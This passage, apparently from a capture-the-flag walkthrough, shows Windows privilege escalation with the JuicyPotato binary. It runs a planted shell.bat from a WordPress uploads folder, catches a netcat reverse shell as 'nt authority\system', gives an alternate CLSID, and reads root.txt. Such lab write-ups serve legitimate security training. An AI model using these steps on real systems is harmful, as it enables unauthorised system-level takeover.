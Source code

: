 
Let's start, from another terminal, another netcat listener:
<div style="width:100%; background-color:#252b34;text-align: left;;border: 1px solid black;" ><img width="40%"  src="media/image120.png"></div>


Next, we execute the netcat shell  using the JuicyPotato binary(js.exe):
``` shell 
kali@kali:$ js.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image121.png"></div>


***NOTE:*** if our payload is not working, we can use another CLSID
``` shell 
Option to add : -c {bb6df56b-cace-11dc-9992-0019b93a3a84}
```
Now on the listener terminal we have a shell  as “**nt
authority\\system**”
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image122.png"></div>


And we can have access to the **“root.txt”** file
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image123.png"></div>
